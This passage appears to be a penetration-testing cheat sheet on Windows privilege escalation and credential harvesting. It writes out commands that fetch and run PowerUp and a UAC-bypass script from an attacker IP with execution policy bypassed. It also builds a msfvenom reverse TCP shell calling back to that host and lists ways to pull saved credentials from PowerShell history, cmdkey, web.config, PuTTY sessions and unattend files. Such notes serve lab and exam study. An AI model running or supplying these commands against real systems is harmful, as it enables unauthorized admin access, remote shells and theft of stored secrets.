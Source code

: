 -> Step 3 - Win Owned  
```powershell
iwr -uri 192.168.119.139:805/powerup.ps1 -Outfile powerup.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
`[+] Run a BypassUAC attack to elevate privileges to admin.`

-> Step 4 -Kali
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.139 LPORT=8445 -f exe > ok.exe
```

-> Step 5 - Win Owned
```powershell
wget 192.168.119.139:805/Invoke-EventViewer.ps1 -O Invoke-EventViewer.ps1
. .\Invoke-EventViewer.ps1
Invoke-EventViewer cmd.exe /c "C:\Windows\tasks\shell2.exe"
Invoke-EventViewer C:\Windows\tasks\shell2.exe
```
- https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1

#### FodhelperBypass
- https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1

### Capturing configuration file credentials
-> Powershell History  
```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

-> EXploiting Saved Windows Credentials
```powershell
cmdkey /list  
runas /savecred /user:admin cmd.exe
```

-> IIS Configuration  
```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString  
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
  
-> Retrieve Credentials from Software: PuTTY  
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

-> Unattended Windows Installations
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
  